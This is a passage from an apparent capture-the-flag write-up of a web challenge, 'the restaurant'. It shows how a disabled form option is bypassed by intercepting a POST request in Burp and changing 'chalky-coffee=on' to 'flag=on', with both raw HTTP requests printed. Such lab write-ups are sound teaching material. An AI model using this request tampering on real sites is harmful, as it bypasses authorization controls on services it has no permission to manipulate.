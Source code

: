 We could delete the 'disabled' keyword using inspect element or use Burp. If we choose the latter, we need to order something like a calky-coffee and modify the order using Burp before it reaches the server. This is the original request:

{% highlight bash %}
POST /level0.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level0.php
Upgrade-Insecure-Requests: 1

chalky-coffee=on&order=
{% endhighlight %}

We only need to replace 'chalky-coffee=on' with 'flag=on', so the modified request will be very similar:

{% highlight bash %}
POST /level0.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level0.php
Upgrade-Insecure-Requests: 1

flag=on&order=
{% endhighlight %}

After receiving and saving the 2nd part of the flag, we can click on the link that is going to take us to the next level:

<div>
<center><img src="/images/unbreakable-2021-individual-writeup/the-restaurant-2.png"></center>
</div>
